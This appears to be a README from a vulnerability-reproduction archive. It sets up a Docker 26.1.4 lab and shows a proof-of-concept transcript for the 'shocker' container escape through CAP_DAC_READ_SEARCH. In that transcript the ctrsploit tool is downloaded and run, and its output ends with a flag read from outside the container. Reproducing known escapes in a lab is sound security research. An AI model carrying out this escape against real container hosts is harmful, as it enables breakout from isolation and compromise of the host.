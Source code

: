 # docker v26.1.4

* dqd:
  * ssst0n3/docker_archive:shocker_docker-v26.1.4 -> ssst0n3/docker_archive:shocker_docker-v26.1.4_v0.1.0
  * ssst0n3/docker_archive:shocker_docker-v26.1.4_v0.1.0
* ctr:
  * ssst0n3/docker_archive:ctr_shocker_docker-v26.1.4 -> ssst0n3/docker_archive:ctr_shocker_docker-v26.1.4_v0.1.0
  * ssst0n3/docker_archive:ctr_shocker_docker-v26.1.4_v0.1.0

## reproduce

```shell
root@localhost:~# ./poc.sh 
+ wget -q https://github.com/ctrsploit/ctrsploit/releases/latest/download/ctrsploit_linux_amd64 -O ctrsploit
+ chmod +x ctrsploit
+ docker run -tid --name poc --cap-add CAP_DAC_READ_SEARCH busybox
Unable to find image 'busybox:latest' locally
latest: Pulling from library/busybox
3d1a87f2317d: Pull complete 
Digest: sha256:82742949a3709938cbeb9cec79f5eaf3e48b255389f2dcedf2de29ef96fd841c
Status: Downloaded newer image for busybox:latest
c27f1b82f272b47100ad6d143d7b38dddf4d28f11b960949a7e60a62c2b56eba
+ docker cp ctrsploit poc:/usr/bin/
Successfully copied 10.6MB to poc:/usr/bin/
+ docker attach poc
/ # 
/ # 
/ # ctrsploit checksec shocker
[Y]  shocker	# Container escape with CAP_DAC_READ_SEARCH, alias shocker, found by Sebastian Krahmer (stealth) in 2014.

/ # ctrsploit exploit shocker
/proc/self/fd/7 # cat flag
flag{escaped}
```

## env

```shell
$ git clone https://github.com/ssst0n3/docker_archive.git
$ cd vul/shocker/shocker_docker-v26.1.4
$ docker compose -f docker-compose.yml -f docker-compose.kvm.yml up -d
$ ./ssh
```

```shell
root@localhost:~# docker version
Client: Docker Engine - Community
 Version:           26.1.4
 API version:       1.45
 Go version:        go1.21.11
 Git commit:        5650f9b
 Built:             Wed Jun  5 11:28:57 2024
 OS/Arch:           linux/amd64
 Context:           default

Server: Docker Engine - Community
 Engine:
  Version:          26.1.4
  API version:      1.45 (minimum version 1.24)
  Go version:       go1.21.11
  Git commit:       de5c9cf
  Built:            Wed Jun  5 11:28:57 2024
  OS/Arch:          linux/amd64
  Experimental:     false
 containerd:
  Version:          1.6.33
  GitCommit:        d2d58213f83a351ca8f528a95fbd145f5654e957
 runc:
  Version:          1.1.12
  GitCommit:        v1.1.12-0-g51d5e94
 docker-init:
  Version:          0.19.0
  GitCommit:        de40ad0
```

## build

```shell
make all DIR=vul/shocker/shocker_docker-v26.1.4
```

for developers:

```dockerfile
FROM ssst0n3/docker_archive:ctr_shocker_docker-v26.1.4_v0.1.0
```